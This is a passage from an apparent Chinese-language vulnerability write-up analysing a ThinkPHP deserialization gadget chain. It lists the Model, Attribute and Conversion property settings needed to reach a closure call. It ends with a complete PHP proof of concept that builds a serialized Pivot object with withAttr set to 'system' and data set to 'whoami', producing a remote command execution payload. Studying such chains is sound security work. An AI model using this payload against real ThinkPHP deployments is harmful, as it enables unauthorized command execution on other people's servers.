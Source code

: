 可以看到这里已经不会造成影响。我们需要满足的条件
- isset($this->withAttr[$fieldName])，$this->withAttr['key'] != NULL
- $relation = false，在getAttr()函数已经满足
- in_array($fieldName, $this->json)  == false 或者  is_array($this->withAttr[$fieldName]) == false 选其一，我们选择is_array($this->withAttr[$fieldName]) == false，即$this->withAttr['key']不是数组

```
	$closure = $this->withAttr[$fieldName];
	$value   = $closure($value, $this->data);
```

最终$this->withAttr['key']控制危险函数，$this->data和$value控制参数。
2. 整理一下思路，我们用到的类有抽象类Model，Model的子类Attribute，Model的子类Conversation。
需要满足的条件：
- Conversion
  - $this->visible = ['key' => 1]  //没有也不影响
- Arrtibute
  - $this->data = ['key' => 'whoami']
  - $this->strict = true  //没有也不影响
  - $this->withAttr = ['key' => system]
- Model类中：
  - $this->lazySave = true
  - $this->force = true
  - $this->exists = true
  - $this->table = obj   //触发tostring
- ModelEvent类中:
  - $this->withEvent = null  //没有也不影响
  
 
贴上几张别人的图。。。
![img](https://www.andseclab.com/wp-content/uploads/2020/03/121354a039c7636841b67cdb6bcca7c5.png)
![img](https://www.andseclab.com/wp-content/uploads/2020/03/31ad8c6f193efad11ee3fc452eda5b86.png)


3. POC，因为Model和Attribute都不能实例化，所以我们要随便挑一个子类来当做实例化的跳板。
   在写POC的时候发现，Attribute等都是复用结构，所以只要被Model use，Model的序列化就会包括这些复用类，所以Attribute的变量在反序列化时是可以被Model控制的。
```php
<?php
namespace think;
abstract class Model
{
    private $lazySave = true;
    private $exists = true;
    private $force = true;
    private $data = ["key" => "whoami"];
    private $withAttr = ['key' => 'system'];


    // private $visible = ['key' => 1];//可以没有
    // private $withEvent = null;//可以没有
    // private $strict = true;//可以没有

    public function __construct($obj)
    {       
        $this->table=$obj;
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
    function __construct($obj){
        parent::__construct($obj);
    }
}
$obj = new pivot(null);
echo urlencode(serialize(new Pivot($obj)));
```